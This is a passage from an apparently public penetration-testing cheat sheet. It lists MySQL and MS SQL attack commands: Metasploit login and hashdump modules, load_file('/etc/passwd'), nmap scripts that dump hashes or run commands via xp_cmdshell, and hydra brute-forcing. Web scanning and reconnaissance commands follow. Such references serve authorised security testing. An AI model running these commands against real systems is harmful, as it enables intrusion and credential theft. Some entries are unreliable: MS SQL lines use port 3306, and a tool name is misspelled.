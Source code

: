 MySQL

 - `mysql -h 1.2.3.4`
 - `mysql -h 1.2.3.4 -u user`
 - `mysql -h 1.2.3.4 -u user -p`
 - **msf5>** `use auxiliary/scanner/mysql/mysql_writeable_dirs`
 - **msf5>** `use auxiliary/scanner/mysql/mysql_hashdump`
 - **msf5>** `use auxiliary/scanner/mysql/mysql_login`
 - **mysql [dvwa]>** `select load_file('/etc/passwd')`
 - `nmap -p 3306 1.2.3.4 --script mysql-empty-password`
 - `nmap -p 3306 1.2.3.4 --script mysql-info`
 - `nmap -p 3306 1.2.3.4 --script mysql-audit --script-args "mysqluser=root,mysqlpass=password1"`
 - `nmap -p 3306 1.2.3.4 --script mysql-variables --script-args "mysql-audit.username=root, mysql-audit.password=password1, mysql-audit.filename=/usr/share/nmap/nselib/data/mysql-cis.audit"`
 - `nmap -p 3306 1.2.3.4 --script mysql-dump-hashes --script-args "username=root, password=password1"`
 - `hydra -L users.txt -P rockyou.txt 1.2.3.4 mysql`

MS SQL

 - `nmap -p 3306 1.2.3.4 --script ms-sql-info`
 - `nmap -p 3306 1.2.3.4 --script ms-sql-empty-password`
 - `nmap -p 3306 1.2.3.4 --script ms-sql-ntlm-info --script-args "mssql.instance-port=1433"`
 - `nmap -p 3306 1.2.3.4 --script ms-sql-ntlm-info --script-args "mssql.instance-port=1433"`
 - `nmap -p 3306 1.2.3.4 --script ms-sql-dump-hashes --script-args "mssql.username=admin, mssql.password=password1"`
 - `nmap -p 3306 1.2.3.4 --script ms-sql-xp-cmdshell --script-args "mssql.username=admin, mssql.password=password1, ms-sql-xp-cmdshell.cmd='ipconfig /all'"`
 - **msf5>** `use auxiliary/scanner/mssql/mssql_login`
 - **msf5>** `use auxiliary/scanner/mssql/mssql_hashdump`
 - **msf5>** `use auxiliary/admin/mssql/mssql_exec`
 - **msf5>** `use auxiliary/admin/mssql/mssql_enum`
 - **msf5>** `use auxiliary/admin/mssql/mssql_enum_sql_logins`
 - **msf5>** `use auxiliary/admin/mssql/mssql_enum_domain_accounts`

#### Webserver security scanning

 - `BurpSuite Proxy`
 - `OWASP ZAP Proxy`
 - `nikto -h https://pentest-experts.com -o report.html -Format htm`
 - `nuclai -u https://pentest-experts.com`


## Automate passive and active reconissance

 - `amass enum -d pentest-experts.com -passive -src -ip -dir ./outputfolder/`
 - `amass intel -whois -d pentest-experts.com -active -src -ip -dir ./outputfolder/`
 - `wap.py https://pentest-experts.com common.txt dns.txt`  
 see: https://github.com/mark-b1980/WebsiteAutoRecon


## XSS / HTML injection
